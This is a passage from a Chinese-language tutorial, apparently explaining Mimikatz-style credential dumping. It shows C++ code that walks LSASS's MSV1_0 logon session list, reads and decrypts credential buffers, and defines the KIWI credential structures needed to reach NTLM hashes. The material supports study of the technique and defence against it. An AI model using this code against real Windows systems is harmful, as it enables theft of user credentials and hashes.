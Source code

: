 ```cpp

				// 读取加密的凭据缓冲区
				BYTE encryptedCreds[1024] = { 0 };
				ReadFromLsass(credStr->Buffer, encryptedCreds, credStr->Length);
				BYTE decryptedCreds[1024] = { 0 };
				ULONG decryptedLength = DecryptCredentials((char*)encryptedCreds, credStr->Length, decryptedCreds, sizeof(decryptedCreds));

				PBYTE msvCredentials = decryptedCreds;

				// 处理 UserName

				// 处理 NTLM Hash

			}
		}
		credPtr = credentials.next;
	}
	pList = listEntry.Flink;
} while (pList != logSessListAddr);
```

遍历链表中的每个节点，即结构体`KIWI_MSV1_0_LIST_63`：

```cpp
typedef struct _KIWI_MSV1_0_LIST_63 {
    struct _KIWI_MSV1_0_LIST_63* Flink;	//off_2C5718
    struct _KIWI_MSV1_0_LIST_63* Blink; //off_277380
	// 此处省略一些字段
    LSA_UNICODE_STRING UserName;
    LSA_UNICODE_STRING Domaine;
    PKIWI_MSV1_0_CREDENTIALS Credentials;
    PVOID CredentialManager;
} KIWI_MSV1_0_LIST_63, * PKIWI_MSV1_0_LIST_63;
```

读取其中的凭据链表头`Credentials`，该字段是一个指向`KIWI_MSV1_0_CREDENTIALS`结构体的指针：

```cpp
typedef struct _KIWI_MSV1_0_CREDENTIALS {
    struct _KIWI_MSV1_0_CREDENTIALS* next;
    DWORD AuthenticationPackageId;
    PKIWI_MSV1_0_PRIMARY_CREDENTIALS PrimaryCredentials;
} KIWI_MSV1_0_CREDENTIALS, * PKIWI_MSV1_0_CREDENTIALS;
```

对于每个凭据，读取`PrimaryCredentials`指向的`KIWI_MSV1_0_PRIMARY_CREDENTIALS`结构体，获取其中的加密凭据缓冲区。

```cpp
typedef struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS {
    struct _KIWI_MSV1_0_PRIMARY_CREDENTIALS* next;
    STRING Primary;
    LSA_UNICODE_STRING Credentials;
} KIWI_MSV1_0_PRIMARY_CREDENTIALS, * PKIWI_MSV1_0_PRIMARY_CREDENTIALS;
```
